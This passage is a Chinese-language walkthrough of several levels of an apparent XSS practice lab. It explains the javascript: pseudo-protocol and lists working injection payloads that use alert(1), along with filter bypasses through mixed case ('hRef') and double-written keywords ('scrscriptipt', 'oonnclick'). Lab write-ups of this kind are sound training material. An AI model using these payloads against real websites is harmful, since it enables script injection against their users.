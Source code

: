 
我们可以使用JavaScript伪协议

```js
伪协议是为关联应用程序而使用的，JavaScript伪协议实际上是把
javascript:后面的代码当JavaScript来执行，并将结果值返回给当前页面。 将javascript代码添加到客户端的方法是把它放置在伪协议说明符
javascript:后的URL中。 这个特殊的协议类型声明了URL的主体是任意的javascript代码，它由javascript
的解释器运行。
```



![image-20221216133834460](https://s2.loli.net/2022/12/16/ClqQ4MReETmf7pb.png)



xss代码：

```js
"><a href=javascript:alert(1)>hacker</a>//
或
"><iframe src=javascript:alert(1)></iframe>//
```

此处js伪协议写在a标签的href属性中，将Javascript后面的代码当作js代码执行

![image-20221216134224702](https://s2.loli.net/2022/12/16/vI72DbydkQp8ZJ1.png)





### level6

过滤更多了，我们尝试上一题方法，发现href被过滤，我们尝试大小写绕过：hRef发现可行

![image-20221216134918561](https://s2.loli.net/2022/12/16/WoTpE6GDnc29zxM.png)



![image-20221216135032318](https://s2.loli.net/2022/12/16/wUvW6c3qKbCOEJy.png)

xss:

```js
"><a hRef=javascript:alert(1)>hacker</a>//
```



### level7

```js
" oonnclick=alert(1) "
或
"><scrscriptipt>alert(1)</scrscriptipt>
```

双写绕过，此处将on，script替换为空

![image-20221216140256840](https://s2.loli.net/2022/12/16/jte8obr5QPARxOd.png)

